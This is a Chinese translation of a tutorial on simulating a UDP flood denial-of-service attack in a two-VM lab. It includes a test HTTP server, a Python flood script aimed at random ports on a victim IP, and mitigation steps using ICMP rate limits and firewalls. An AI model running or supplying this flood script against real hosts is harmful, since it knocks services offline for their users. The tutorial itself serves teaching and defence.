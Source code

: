 > * 原文地址：[How to simulate a UDP Flood DoS attack on your computer](https://levelup.gitconnected.com/how-to-simulate-a-udp-flood-dos-attack-on-your-computer-863b40c44f3f)
> * 原文作者：[RiccardoM](https://medium.com/@riccardom)
> * 译文出自：[掘金翻译计划](https://github.com/xitu/gold-miner)
> * 本文永久链接：[https://github.com/xitu/gold-miner/blob/master/article/2020/how-to-simulate-a-udp-flood-dos-attack-on-your-computer.md](https://github.com/xitu/gold-miner/blob/master/article/2020/how-to-simulate-a-udp-flood-dos-attack-on-your-computer.md)
> * 译者：[chaingangway](https://github.com/chaingangway)
> * 校对者：[shixi-li](https://github.com/shixi-li)、[司徒公子](https://github.com/todaycoder001)

# 如何在自己的计算机上模拟 UDP Flood DoS 攻击

![](https://cdn-images-1.medium.com/max/12048/0*5IXgILaawtazZ2Tx)

**免责声明：以下教程仅用于教学目的。您只能在自己的计算机上模拟攻击**

UDP 洪水攻击能让服务器拒绝服务，攻击者向目标服务器发送大量 **UDP**（用户数据报文协议）数据包，以压垮服务器处理和响应传入流量的能力。

攻击者将数据包发送到服务器 IP 地址的随机端口。当服务器收到数据包时：

1. 检查是否有程序监听该端口。
2. 如果发现没有程序监听；大部分情况都是这样，因为目标端口是随机的。
3. 返回 **ICMP Destination Unreachable** 的数据包。

攻击者的 IP 地址可以伪装，以防止 ICMP 响应包的身份识别和自身资源饱和。

## 初始化

为了模拟这种攻击，您需要两台虚拟机。网卡必须配置为在子网中并且有自己的地址。我使用的是 VirtualBox 中非常轻量级的两个 BunsenLabs 实例。它们以桥接模式配置网卡。下面是对每个虚拟机的要求：

* **攻击者**的虚拟机需要安装 python3
* **目标服务器**的虚拟机需要安装 python 3.7 及以上版本

#### 服务器端配置

我们将运行一个简单的 HTTP 服务器，以验证服务器受到攻击时性能是否下降。下面是用 Python 编写的服务器端程序。

```py
import sys
import time
import random
from http.server import ThreadingHTTPServer, BaseHTTPRequestHandler

class DefaultHTTPHandler(BaseHTTPRequestHandler):

  def do_GET(self):
    self.send_response(200)
    self.send_header('Content-type', 'text/plain')
    self.send_header("Cache-Control", "no-cache")
    self.end_headers()

    n = random.randint(1e7,1e8)
    self.wfile.write((("{} is " + ("" if is_prime(n) else "not ") + "a prime number").format(n)).encode("utf-8"))

def base_http_server_start(address="0.0.0.0", port=80):
    handler = DefaultHTTPHandler
    address = (address, port)
    server = ThreadingHTTPServer(address, handler, bind_and_activate=False)
    server.server_bind()
    server.server_activate()
    server.serve_forever()

def is_prime(num):
    res = True
    for i in range(2, num - 1):
        if num % i == 0:
            res = False
    return res

if __name__ == '__main__':
    print("Starting HTTP server on port 80")
    base_http_server_start()
```

通过地址 localhost: 80 访问服务器。在这个服务器程序中，我们生成了一个非常大的随机数，并故意用非常低效的方法检验它是否为质数。通过这种机制，我们在重新加载浏览器页面时就能大致估计服务器的响应时间。响应时间因硬件的计算能力而异，平均值在 5-10 秒左右。

#### 攻击脚本

我们用下面的 Python 脚本执行攻击，这里用到了 socket。

```py
import time
import socket
import random
import sys

victim_ip = 192.168.1.10
duration = 60 # in seconds

sock = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)

msg = bytes(random.getrandbits(10))
timeout = time.time() + duration
sent_packets = 0

while time.time() < timeout:
  victim_port = random.randint(1025, 65356)
  sock.sendto(msg, (victim_ip, victim_port))
  sent_packets += 1
```

在脚本中，我们可以指定目标的 IP 地址和攻击的持续时间。如上所述，我们每次都会选择不同的端口来发送数据包。

## 攻击

要执行攻击，我们首先需要运行服务器并使用上述方法检查其性能。接下来，在攻击者的虚拟机中，运行执行攻击的脚本。当服务器受到攻击时，由于其忙于处理传入流量并返回 ICMP Destination Unreachable 数据包，我们可以看到其 CPU 使用率在增加。

然后，我们来重新加载浏览器页面并计算服务器的响应时间。很显然看到服务器性能已急剧下降。响应时间至少应为正常情况下的两倍。

## 缓解

#### Linux 设置

想缓解 UDP 洪水攻击很难。但是我们可以更改操作系统每秒发送的 ICMP 数据包的数量。我们在Linux中使用这两个命令，例如：

```bash
sudo sysctl -w net.ipv4.icmp_ratelimit=0
sudo sysctl -w net.ipv4.icmp_msgs_per_sec=1000
```

第一条命令让 ICMP 响应的速率仅能通过第二条命令的参数来设置。因此，在这种情况下，使用第二个命令，我们就能设置 ICMP 消息的速率为每秒 1000 条 。

现在我们来验证这一点，对服务器持续攻击 10 秒钟，并在服务器的虚拟机上使用 Wireshark 来拦截响应的 ICMP 数据包，观察数据包的数量是否符合预期。因为我们将速率设置为每秒 1000 个数据包，所以可以看到在 10 秒内大约发送了 10000 个 ICMP 数据包，这是正确的。

![10.000 packets captured with Wireshark during a 10 seconds attack](https://cdn-images-1.medium.com/max/2000/1*Kb3xNdtJxxD0L87W9i3IJg.png)

我们可以尝试更改此参数，并使用 Wireshark 检查 10 秒钟内发送的数据包数量如何变化。例如，设置速率为每秒 1 条消息，我们可以捕获大约 10 条消息。

```bash
sudo sysctl -w net.ipv4.icmp_msgs_per_sec=1
```

![10 packets captured with Wireshark during a 10 seconds attack](https://cdn-images-1.medium.com/max/2000/1*3MVskJJFtm4wKB4kT5GiYg.png)

为这些参数设置最佳值是个难点。因为最佳值取决于我们的硬件，应用程序以及与服务器交互的平均流量。如果我们减少每秒发送的响应数，虽然能减少服务器的负载，但这只是丢弃了更多传入的请求，而没有发送 ICMP 响应包。通过减少参数的值，我们可能会拒绝合法的请求，而没有处理真实用户的流量，这会有更大的风险。因此，我们要有一种折衷的办法。

#### 防火墙

我们还可以使用防火墙来抵御这种攻击。防火墙可以在 UDP 数据包到达服务器之前将其阻止。这样就不会耗费服务器资源。但是，防火墙本身也容易受到此类攻击：它们必须处理传入的流量，并且可能在攻击过程中成为瓶颈。此外，如果我们使用的是有状态的防火墙，虽然可以轻松地阻止来自同一 IP 地址的攻击，但是如果攻击者使用了 IP 欺骗，防火墙的状态表可能会塞满，可用内存将被耗尽。因此，防火墙也不是终极解决方案。

## 结论

在本文中，我们通过几个简单的步骤模拟攻击，来帮助我们更好地了解其工作原理。您还可以更详细地研究应对攻击的缓解措施，尝试使用不同的参数来配置服务器。这个过程也很有趣，因为这是一种简单而强大的攻击：如上所述，我们很难采取有效的对策来阻止它。如果您对更复杂的基于 UDP 的攻击感兴趣，请查看[这个](https://levelup.gitconnected.com/how-to-simulate-a-ntp-amplification-dos-attack-on-your-computer-72b3c6f60eb7)故事，在此我解释了如何利用 NTP 服务器来扩大流量，让受攻击的服务器带宽饱和。

> 如果发现译文存在错误或其他需要改进的地方，欢迎到 [掘金翻译计划](https://github.com/xitu/gold-miner) 对译文进行修改并 PR，也可获得相应奖励积分。文章开头的 **本文永久链接** 即为本文在 GitHub 上的 MarkDown 链接。

---

> [掘金翻译计划](https://github.com/xitu/gold-miner) 是一个翻译优质互联网技术文章的社区，文章来源为 [掘金](https://juejin.im) 上的英文分享文章。内容覆盖 [Android](https://github.com/xitu/gold-miner#android)、[iOS](https://github.com/xitu/gold-miner#ios)、[前端](https://github.com/xitu/gold-miner#前端)、[后端](https://github.com/xitu/gold-miner#后端)、[区块链](https://github.com/xitu/gold-miner#区块链)、[产品](https://github.com/xitu/gold-miner#产品)、[设计](https://github.com/xitu/gold-miner#设计)、[人工智能](https://github.com/xitu/gold-miner#人工智能)等领域，想要查看更多优质译文请持续关注 [掘金翻译计划](https://github.com/xitu/gold-miner)、[官方微博](http://weibo.com/juejinfanyi)、[知乎专栏](https://zhuanlan.zhihu.com/juejinfanyi)。
